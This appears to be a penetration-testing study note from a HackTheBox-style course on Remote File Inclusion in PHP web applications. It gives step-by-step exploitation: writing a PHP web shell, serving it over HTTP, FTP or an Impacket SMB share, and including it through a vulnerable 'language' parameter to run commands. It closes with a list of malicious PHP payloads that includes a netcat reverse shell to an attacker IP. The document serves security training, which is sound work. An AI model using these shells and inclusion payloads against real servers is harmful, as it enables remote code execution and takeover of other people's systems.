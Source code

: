 # Remote File Inclusion!
## @Author : M3tr1c_r00t
![image](https://user-images.githubusercontent.com/99975622/213495218-dc5119e4-01e0-4b8a-9606-56aa9f5aba45.png)
An RFi occurs when a vulnerable function allows the inclusion of remote URLs.

This allows two main benefits:
- Enumerating local-only ports and web applications (i.e. SSRF)
- Gaining remote code execution by including a malicious script that we host

When a vulnerable function allows us to include remote files, we may be able to host a malicious script, and then include it in the vulnerable page to execute malicious functions and gain remote code execution.

The following are some of the functions that (if vulnerable) would allow RFI:
![image](https://user-images.githubusercontent.com/99975622/213495980-52266241-187f-4eb9-854a-fd3aa670089d.png)

As we can see, almost any RFI vulnerability is also an LFI vulnerability, as any function that allows including remote URLs usually also allows including local ones. 
However, an LFI may not necessarily be an RFI. This is primarily because of three reasons:
- The vulnerable function may not allow including remote URLs
- You may only control a portion of the filename and not the entire protocol wrapper (ex: http://, ftp://, https://).
- The configuration may prevent RFI altogether, as most modern web servers disable including remote files by default.

Furthermore, as we may note in the above table, some functions do allow including remote URLs but do not allow code execution. In this case, we would still be able to exploit the vulnerability to enumerate local ports and web applications through SSRF.

### Verify RFI
The  allow_url_include setting to be enabled in the config file...
```
MetricCode@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

A more reliable way to determine whether an LFI vulnerability is also vulnerable to RFI is to try and include a URL, and see if we can get its content. 
At first, we should always start by trying to include a local URL to ensure our attempt does not get blocked by a firewall or other security measures.

If the page did not get included as source code text but got executed and rendered as PHP, so the vulnerable function also allows PHP execution, which may allow us to execute code if we include a malicious PHP script that we host on our machine.

If the back-end server hosted any other local web applications (e.g. port 8080), then we may be able to access them through the RFI vulnerability by applying SSRF techniques on it.

Note: It may not be ideal to include the vulnerable page itself (i.e. index.php), as this may cause a recursive inclusion loop and cause a DoS to the back-end server.

### Remote Code Execution with RFI
Creating an malicious script...
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

#### HTTP
 ``` 
MetricCode@htb[/htb]$ sudo python3 -m http.server 1111
Serving HTTP on 0.0.0.0 port 1111 (http://0.0.0.0:1111/) ...
```
Running the script;
```
:http://example.com/index.php?language=http://<OUR_IP>:1111/shell.php&cmd=id
```
#### FTP
 We can start a basic FTP server with Python's pyftpdlib, as follows:
 ```
 MetricCode@htb[/htb]$ sudo python -m pyftpdlib -p 21
[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
 ```
 
 Execution...
 ```
 :http://example.com/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
 ```
 By default, PHP tries to authenticate as an anonymous user. If the server requires valid authentication, then the credentials can be specified in the URL, as follows:
 
 ```
 MetricCode@htb[/htb]$ curl 'http://example.com/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...

uid=33(www-data) gid=33(www-data) groups=33(www-data)
 ```
#### SMB
If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the allow_url_include setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

We can spin up an SMB server using Impacket's smbserver.py, which allows anonymous authentication by default, as follows:
```
MetricCode@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Now, we can include our script by using a UNC path (e.g. \\<OUR_IP>\shell.php), and specify the command with (&cmd=whoami) as we did earlier:
```
:http://example.com/index.php?language=\\<OUR_IP>\shell.php&cmd=whoami
```

For smb, we do not need any non-default settings to be enabled.
 However, we must note that this technique is more likely to work if we were on the same network, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.
 
## PHP Malicious Scripts
```
<?php system($_GET['c']); ?>
<?php system($_REQUEST['c']$); ?>

<?php
$os = shell_exec('id');
echo "<pre>$os</pre>";
?>

<?php
$os = shell_exec('nc 10.10.10.10 4444 -e /bin/bash');
?>

// Replace IP & Port

Dangerous PHP Functions that can be abused for RCE
<?php
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```
